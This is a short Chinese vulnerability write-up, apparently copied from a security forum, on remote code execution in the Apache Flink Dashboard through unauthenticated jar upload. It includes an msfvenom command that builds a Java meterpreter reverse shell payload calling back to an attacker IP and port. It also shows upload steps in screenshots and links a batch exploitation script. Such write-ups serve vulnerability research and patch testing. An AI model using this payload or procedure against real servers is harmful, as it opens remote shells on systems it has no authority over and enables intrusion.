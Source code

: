 # Apache Flink Dashboard 未授权访问-远程代码命令执行

> 原文：[https://www.zhihuifly.com/t/topic/2813](https://www.zhihuifly.com/t/topic/2813)

# Apache Flink Dashboard 未授权访问-远程代码命令执行

## 一、漏洞简介

Apache Flink的任意Jar包上传导致远程代码执行的漏洞

## 二、漏洞影响

<= 1.9.1(最新版本)

## 三、复现过程

### 1、

```
msfvenom -p java/meterpreter/reverse_tcp LHOST=10.10.20.166 LPORT=8989 -f jar > rce.jar 
```

![image](img/819fb8cc6c325c0beb7e9ee6be23bb9c.png)

### 2、

上传alewong Jar包

![image](img/d755c4914d0d6ecd38db218692beb964.png)

![image](img/ea33663f1b99c5b71fd3ee2edc465369.png)

### 批量脚本

https://github.com/ianxtianxt/Apache-Flink-Dashboard-rec

```
Ps:
当注释掉 if 'Unable to load requested file' in str(data):
之后，出现Token为空，或者 Unauthorized request 时候是不存在未授权访问的，而是带授权 
```